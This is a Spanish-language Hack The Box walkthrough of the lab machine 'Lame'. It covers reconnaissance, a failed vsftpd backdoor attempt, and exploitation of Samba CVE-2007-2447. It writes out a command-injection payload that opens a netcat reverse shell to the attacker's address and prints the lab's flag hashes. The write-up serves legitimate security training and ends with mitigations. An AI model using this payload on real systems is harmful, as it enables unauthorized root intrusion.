




# Lame — Hack The Box Walkthrough & Writeup


-blue?style=for-the-badge)

Guía completa y walkthrough detallado de **Lame**, la emblemática primera máquina de **Hack The Box**. En este laboratorio se analiza un entorno Linux vulnerable que presenta dos servicios históricamente conocidos: un servidor FTP con backdoor (bloqueado por reglas de firewall) y una implementación de Samba vulnerable a inyección de comandos arbitrarios que nos otorga acceso directo como **root**.

---

## 📋 Ficha Técnica

| Parámetro | Detalle |
| :--- | :--- |
| **Nombre** | Lame |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Linux (Debian 3.2.x) |
| **Dificultad** | Easy (Fácil) |
| **Vulnerabilidad Principal** | Samba 3.0.20 "Username Map Script" RCE |
| **CVE Asociado** | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) |
| **Vector de Entrada** | Ejecución remota de comandos vía SMB (puerto 445/139) |
| **Escalada de Privilegios** | No requerida (Acceso directo con UID 0 / root) |

---

## 🎯 Resumen del Flujo de Ataque

```
[ Reconocimiento de Red ]
       │
       ├──► Puerto 21 (FTP): vsftpd 2.3.4 (Backdoor bloqueado por firewall)
       ├──► Puerto 22 (SSH): OpenSSH 4.7p1 (Sin vectores de autenticación débiles)
       └──► Puerto 445/139 (SMB): Samba 3.0.20-Debian ◄── [ Vector Crítico ]
                   │
                   ▼
[ Explotación CVE-2007-2447 ]
       │─── Inyección de comandos en 'username map script'
       └─── Payload de Reverse Shell a través de metacaracteres shell
                   │
                   ▼
[ Shell Directa como Root (UID 0) ]
       ├──► Lectura de User Flag: /home/makis/user.txt
       ├──► Lectura de Root Flag: /root/root.txt
       └──► Análisis Forense (Beyond Root): Confirmación de bloqueo de puerto 6200 por iptables
```

---

## 🔍 Fase 1: Reconocimiento Inicial

Comenzamos realizando un escaneo exhaustivo de todos los puertos TCP con `nmap`, habilitando detección de servicios (`-sV`), scripts de enumeración predeterminados (`-sC`) y abarcando el rango completo de puertos (`-p-`):

```bash
sudo nmap -sV -sC -p- 10.10.10.3 -oN nmap_lame_full.txt
```



### Análisis de Puertos y Servicios Detectados

1. **Puerto 21/tcp — FTP (`vsftpd 2.3.4`)**:
   * Versión famosa por contener una puerta trasera introducida en los repositorios oficiales en 2011.
2. **Puerto 22/tcp — SSH (`OpenSSH 4.7p1 Debian 8ubuntu1`)**:
   * Servicio seguro estándar; requiere credenciales o llaves privadas válidas.
3. **Puerto 139/tcp y 445/tcp — NetBIOS / SMB (`Samba 3.0.20-Debian`)**:
   * Implementación antigua de compartición de archivos y autenticación en red.
4. **Puerto 3632/tcp — Distcc (`distccd v1`)**:
   * Demonio de compilación distribuida.

---

## 🔬 Fase 2: Enumeración y Descarte de Vectores

### Vector A: Verificación de VSFTPd 2.3.4 (Rabbit Hole)

Al conectarnos al puerto 21, confirmamos el banner del servicio:

```bash
nc -nv 10.10.10.3 21
# 220 (vsFTPd 2.3.4)
```


La versión `vsftpd 2.3.4` es vulnerable a un backdoor que se dispara cuando un usuario introduce una carita sonriente `:)` en el nombre de usuario (ejemplo: `USER hacker:)`). Al enviar este valor, el demonio abre una shell como root en el puerto TCP **6200**.

Probamos el módulo oficial en Metasploit (`exploit/unix/ftp/vsftpd_234_backdoor`):

```bash
msfconsole -q
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```



**Resultado:** El exploit se lanza pero la conexión se agota por tiempo de espera (*Connection timed out*). Aunque el backdoor se ejecuta internamente, **un firewall a nivel de host (iptables) bloquea las conexiones entrantes al puerto 6200**, impidiendo el acceso remoto. Más adelante confirmaremos esto en la sección *Beyond Root*.

---

### Vector B: Análisis del Servicio SMB (Samba 3.0.20)

Inspeccionamos la versión de Samba en los puertos 139 y 445:

```bash
smbclient -L //10.10.10.3/ -N
```



Investigando vulnerabilidades públicas para **Samba 3.0.20-Debian**, encontramos el boletín de seguridad **CVE-2007-2447**:


### ¿Cómo funciona la vulnerabilidad CVE-2007-2447?

Cuando la directiva de configuración `username map script` se encuentra activa en el archivo `smb.conf`, Samba permite invocar un script externo para mapear nombres de usuarios de Windows a cuentas UNIX locales.

El fallo reside en que Samba pasa el nombre de usuario introducido por el cliente directamente a una shell del sistema (`/bin/sh`) sin realizar un saneamiento adecuado de metacaracteres. Si un atacante proporciona un nombre de usuario que contenga caracteres de control como comillas invertidas (`` `cmd` ``) o punto y coma (`;`), el comando contenido se ejecutará en el servidor con los privilegios del servicio Samba (**root**).

---

## 💥 Fase 3: Explotación (Foothold & Acceso Root)

### Método 1: Explotación Manual con smbclient / Python

Podemos explotar esta vulnerabilidad directamente sin necesidad de Metasploit utilizando un script en Python o el comando nativo `smbclient`.

Ponemos nuestro listener en escucha en Kali:

```bash
nc -lvnp 4444
```

Lanzamos la carga maliciosa conectándonos al recurso compartido e inyectando un comando en el parámetro de autenticación:

```bash
# Inyección manual vía smbclient:
smbclient //10.10.10.3/tmp -N -c "logon \"/=`nohup nc -e /bin/sh 10.10.14.6 4444`\""
```

O utilizando un exploit en Python para el puerto 445:

```bash
python smb3.0.20.py -lh 10.10.10.3 -lp 445 -t 10.10.14.6
```



### Recepción de Shell Directa

El listener de Netcat recibe la conexión de forma inmediata:

```text
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.3] 54321
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

Debido a que el servicio `smbd` corre con privilegios máximos del sistema, **obtenemos una shell directamente como root**, sin necesidad de realizar ninguna fase adicional de escalada de privilegios.

---

## 🚩 Fase 4: Banderas (Flags)

### User Flag (makis)

Buscamos los directorios en `/home` y localizamos la cuenta de usuario `makis`:

```bash
cd /home/makis
ls -la
cat user.txt
```


> **User Flag:** `1c8e9423a89affd9378a09042d8e98d2`

---

### Root Flag

Navegamos al directorio `/root` y leemos la bandera del superusuario:

```bash
cd /root
ls -la
cat root.txt
```


> **Root Flag:** `3b4c75e879a3ea31b99b45aac23955d1`

---

## 🔬 Fase 5: Análisis Forense Post-Explotación (Beyond Root)

Una de las dudas más comunes al resolver Lame es: **¿Por qué falló el backdoor de vsftpd 2.3.4 si la versión era la correcta?**

Con acceso root, inspeccionamos las conexiones y servicios en escucha mediante `netstat`:

```bash
netstat -tnlp
```


Observamos que al enviar la carita sonriente `:)` en el usuario de FTP, el proceso `vsftpd` **efectivamente abre el puerto 6200 en 0.0.0.0**:


Sin embargo, al consultar las reglas de filtrado de paquetes del kernel mediante `iptables`:

```bash
iptables -L -n -v
```

Comprobamos que existe una regla en la cadena `INPUT` que rechaza o descarta el tráfico entrante al puerto 6200. Por tanto, el backdoor funcionaba internamente, pero era inalcanzable desde la red del atacante, constituyendo un *rabbit hole* intencional creado por los diseñadores de la máquina.

---

## 🛡️ Lecciones de Seguridad & Mitigaciones

1. **Actualización de componentes legados:** Samba 3.0.20 es una versión obsoleta lanzada en 2005. Debe actualizarse a versiones modernas mantenidas con soporte oficial.
2. **Deshabilitar opciones peligrosas:** Si no se requiere, evitar el uso de la directiva `username map script` en `/etc/samba/smb.conf`.
3. **Defensa en Profundidad (Firewalling):** La máquina demostró la eficacia de un firewall perimetral y local (`iptables`), el cual logró neutralizar con éxito la explotación del backdoor de VSFTPd aun cuando el servicio era vulnerable.
